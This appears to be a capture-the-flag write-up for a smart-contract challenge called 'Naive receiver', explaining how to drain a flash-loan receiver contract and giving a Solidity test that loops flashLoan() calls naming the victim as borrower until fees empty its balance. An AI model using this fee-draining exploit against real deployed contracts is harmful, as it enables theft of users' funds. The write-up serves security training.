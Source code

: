 # 2. Naive receiver

#### **Objective**

There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

Take all ETH out of the user’s contract. If possible, in a single transaction.

#### **Approach**

* We want to drain `FlashLoanReceiver.sol` of its ETH.&#x20;
* It only has 2 functions, receiveEther() and receive()
* receiveEther() is called by flashLoan() function on `NaiveReceiverLenderPool`
  * checks that msg.sender is pool
* Notice that **anyone** can call flashLoan() function and **pass a borrower address of choice**
  * **receiveEther() does not check originator of transaction**
* This means we can repeatedly call flashLoan(), passing the `FlashLoanReceiver` address, draining the user's contract by repeatedly paying fees

#### Solution

The solution is to repeatedly call flashLoan() on naiveReceiverLenderPool, targetting flashLoanReceiver as the called of the flash loan.

We will achieve this with a `while` loop.

<figure><img src="../../.gitbook/assets/image (189).png" alt=""><figcaption></figcaption></figure>

* calculate the remaining balance on the target contract, less the flash loan fee
* take a flashout out with said balance
* the user's balances are drained paying fees
* while loop breaks when user's balance is 0.

```solidity
    function testExploit() public {
        /**
         * EXPLOIT START *
         */
        uint256 fee = naiveReceiverLenderPool.fixedFee();

        vm.startPrank(attacker);
        while (true) {
            uint256 loanAmount = address(flashLoanReceiver).balance - fee;
            naiveReceiverLenderPool.flashLoan(address(flashLoanReceiver), loanAmount);

            // if no more ETH, break out of while loop
            if (address(flashLoanReceiver).balance == 0) break;
        }

        /**
         * EXPLOIT END *
         */
        validation();
        console.log(unicode"\n🎉 Congratulations, you can go to the next level! 🎉");
    }

```
